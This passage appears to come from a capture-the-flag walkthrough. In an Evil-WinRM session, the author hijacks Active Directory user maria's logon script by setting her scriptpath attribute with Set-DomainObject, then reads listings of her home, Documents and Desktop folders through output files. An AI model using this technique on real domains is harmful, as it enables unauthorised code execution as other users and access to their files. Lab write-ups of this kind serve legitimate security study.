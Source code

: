 
I would have expected only five pings, but it goes on indefinitely until I
change the script. It seems this logon script is being run repeatedly.

### Home Dir Enum

Because I know I can’t connect back because of the firewall, I’ll drop scripts
into the logon that write results where I can read them. For example:

    
    
    *Evil-WinRM* PS C:\programdata> echo "ls \users\maria\ > \programdata\out" > cmd.ps1
    *Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity maria -SET @{scriptpath="C:\\programdata\\cmd.ps1"}
    

About a second or so later there’s an `out`:

    
    
    *Evil-WinRM* PS C:\programdata> type out
    
        Directory: C:\users\maria
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-r---       10/22/2021   3:54 AM                3D Objects
    d-r---       10/22/2021   3:54 AM                Contacts
    d-r---       10/25/2021   3:47 AM                Desktop
    d-r---       10/25/2021  10:07 PM                Documents
    d-r---       10/22/2021   3:54 AM                Downloads
    d-r---       10/22/2021   3:54 AM                Favorites
    d-r---       10/22/2021   3:54 AM                Links
    d-r---       10/22/2021   3:54 AM                Music
    d-r---       10/22/2021   3:54 AM                Pictures
    d-r---       10/22/2021   3:54 AM                Saved Games
    d-r---       10/22/2021   3:54 AM                Searches
    d-r---       10/22/2021   3:54 AM                Videos
    

It’s interesting that the `Documents` and `Desktop` folders have different
timestamp than the rest. I’ll list those directories:

    
    
    *Evil-WinRM* PS C:\programdata> echo "ls \users\maria\documents > \programdata\out; ls \users\maria\desktop\ > \programdata\out2" > cmd.ps1
    *Evil-WinRM* PS C:\programdata> ls out*
    
        Directory: C:\programdata
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        2/28/2022   3:42 AM              0 out
    -a----        2/28/2022   3:42 AM            830 out2
    *Evil-WinRM* PS C:\programdata> type out2
    
        Directory: C:\users\maria\desktop
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       10/26/2021   8:13 AM           6144 Engines.xls
    